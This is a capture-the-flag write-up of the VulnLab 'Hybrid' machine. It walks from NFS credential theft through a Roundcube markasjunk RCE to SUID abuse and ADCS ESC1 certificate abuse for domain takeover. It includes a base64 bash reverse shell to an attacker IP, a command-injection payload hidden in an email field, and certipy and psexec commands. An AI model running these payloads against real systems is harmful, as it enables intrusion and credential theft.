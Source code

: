 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/hybrid/logo.png
date: 2024-06-01 09:45:47+07:00
modified: 2024-06-01 09:45:47+07:00
tags:
- Hybrid
- VulnLab
- chain
- ADCS
- certipy
- NFS
- roundcube
- SUID
- no-root-squash
- Writeup
title: Hybrid
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

 -->

Hybrid is an &quot;easy&quot; difficulty machine, Where exploited a Roundcube vulnerability and leveraged NFS, SUID misconfiguration, and certificate services to escalate privileges and compromise the domain.

### Difficulty:

`Easy`


# Enumeration

I start with 2 IP addresses and nmap shows us the open ports.

```bash
PORT      STATE    SERVICE      
22/tcp    open     ssh
25/tcp    open     smtp
80/tcp    open     http
110/tcp   open     pop3
111/tcp   open     rpcbind      
143/tcp   open     imap
587/tcp   open     submission   
993/tcp   open     imaps        
995/tcp   open     pop3s        
1102/tcp  filtered adobeserver-1
2049/tcp  open     nfs
3024/tcp  filtered nds_sso
```

```bash
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc 
139/tcp   open  netbios-ssn     
445/tcp   open  microsoft-ds    
464/tcp   open  kpasswd5        
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
```

### Mail01.hybrid.vl

The NFS server is running on the mail server.

![](https://photos.squarezero.dev/file/abir-images/hybrid/01.png)

Mount NFS drive to check out important files.

`mkdir target-NFS`

`sudo mount -t nfs 10.10.209.54:/ ./target-NFS -o nolock`

![](https://photos.squarezero.dev/file/abir-images/hybrid/1.png)

I found credentials inside the tar file.

![](https://photos.squarezero.dev/file/abir-images/hybrid/2.png)

Inside I find 2 credentials

```bash
admin@hybrid.vl:{plain}Duc<snip>   
peter.turner@hybrid.vl:{plain}Pet<snip>
```

Login to the mail server using Admin credentials

![](https://photos.squarezero.dev/file/abir-images/hybrid/3.png)

The version of Roundcube is 1.6.1 and after some research, I found out it's vulnerable to code execution via Markasjunk plugin.

[SSD Advisory -  Roundcube markasjunk RCE - SSD Secure Disclosure](https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/)

![](https://photos.squarezero.dev/file/abir-images/hybrid/4.png)



I need to bypass the filter to have code execution. One easy way to do it is to encode the reverse shell into base64 decode it and run it with bash. I can try this concept in our local machine first.

`echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjIuMTEwLzEyMzQgMD4mMSc= | base64 -d | bash`

![](https://photos.squarezero.dev/file/abir-images/hybrid/5.png)

![](https://photos.squarezero.dev/file/abir-images/hybrid/6.png)



Under settings, I can change the email into our payload.

`admin%26echo${IFS}YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC44LjIuMTEwLzEyMzQgMD4mMQoK|base64${IFS}-d|bash%26%40hybrid.vl`



![](https://photos.squarezero.dev/file/abir-images/hybrid/7.png)

Intercept the request and url-encode the payload.

Note: Char Limit of 128 Also if the base64 string has ‘+’ it needs to be url-encoded.

![](https://photos.squarezero.dev/file/abir-images/hybrid/8.png)

Send an email to Peter.

![](https://photos.squarezero.dev/file/abir-images/hybrid/9.png)

Mark it as junk.

![](https://photos.squarezero.dev/file/abir-images/hybrid/10.png)

And I got a call back to my machine.

![](https://photos.squarezero.dev/file/abir-images/hybrid/11.png)

### www-date to Peter

I looked for a bit and couldn't find anything interesting. But I have both read-write options on the NFS drive.

![](https://photos.squarezero.dev/file/abir-images/hybrid/12.png)

First, I need to check Peter's UID and then I can create a user in our local attacker machine with the same UID as Peter.

```bash
www-data@mail01:~/roundcube$ id peter.turner@hybrid.vl
id peter.turner@hybrid.vl
uid=902601108(peter.turner@hybrid.vl) gid=902600513(domain users@hybrid.vl) groups=902600513(domain users@hybrid.vl),902601104(hybridusers@hybrid.vl)
```

Now using this UID I created a user in my machine.

```bash
sudo adduser nfs_user     
sudo sed -i -e 's/1002/902601108/g' /etc/passwd
```

Next from www-data user, I transfer the bash file to the NFS drive and then move then using our new user I change the SUID of the bash and put it back to the NFS drive.

```bash
cp bash /tmp/        
share su nfs_user 
/target-NFS/opt/share$ cp /tmp/bash .
/target-NFS/opt/share$ chmod +xs bash
```

![](https://photos.squarezero.dev/file/abir-images/hybrid/13.png)

Now I can run commands as Peter.

![](https://photos.squarezero.dev/file/abir-images/hybrid/14.png)

`/opt/share/bash -p`

![](https://photos.squarezero.dev/file/abir-images/hybrid/15.png)

### Peter to Root

Inside Peter's home folder, I found a Keepass file and after transferring the file to my machine, I can log in using the password I found in the NFS drive previously.

![](https://photos.squarezero.dev/file/abir-images/hybrid/16.png)



With the new password, I can ssh into the machine as Peter And as Peter can run anything with sudo I can just use `sudo su` to log in as root.

![](https://photos.squarezero.dev/file/abir-images/hybrid/17.png)

### DC01.hybrid.vl

Peter's credentials are valid in the domain.

![](https://photos.squarezero.dev/file/abir-images/hybrid/18.png)

After running Bloodhound didn't find anything interesting.

`bloodhound-python -u 'peter.turner' -p 'b0cw<snip>' -ns 10.10.246.165 -d hybrid.vl -c all --auth-method auto --zip`

![](https://photos.squarezero.dev/file/abir-images/hybrid/19.png)

Next, I looked for certificate vulnerability using Certipy and it's vulnerable to ESC1

`certipy find -u 'peter.turner' -p 'b0cw<snip>' -dc-ip 10.10.134.197 -enabled -vulnerable -stdout`

![](https://photos.squarezero.dev/file/abir-images/hybrid/20.png)

As only domain joined computer can request I got the machine hash of the mail server.

https://github.com/sosdave/KeyTabExtract

**`/etc/krb5/krb5.`**

![](https://photos.squarezero.dev/file/abir-images/hybrid/21.png)

Now I can request pfx with the right length of RSA

```bash
certipy req -u 'mail01$'@hybrid.vl -hashes '0f916c52<snip>' -dc-ip 10.10.246.165 -ca hybrid-DC01-CA -template HybridComputers -upn ADMINISTRATOR@HYBRID.VL -key-size 4600
```

![](https://photos.squarezero.dev/file/abir-images/hybrid/22.png)

![](https://photos.squarezero.dev/file/abir-images/hybrid/23.png)

60701e8543c9f6db1a2af3217386d3dc

Using the PFX I can request for administrator hash and then log in to get the final flag. 

![](https://photos.squarezero.dev/file/abir-images/hybrid/025.png)

![](https://photos.squarezero.dev/file/abir-images/hybrid/25.png)

### Bonus.

I can also log in using the ticket.

`KRB5CCNAME=administrator.ccache  psexec.py -k -no-pass dc01.hybrid.vl`

![](https://photos.squarezero.dev/file/abir-images/hybrid/26.png)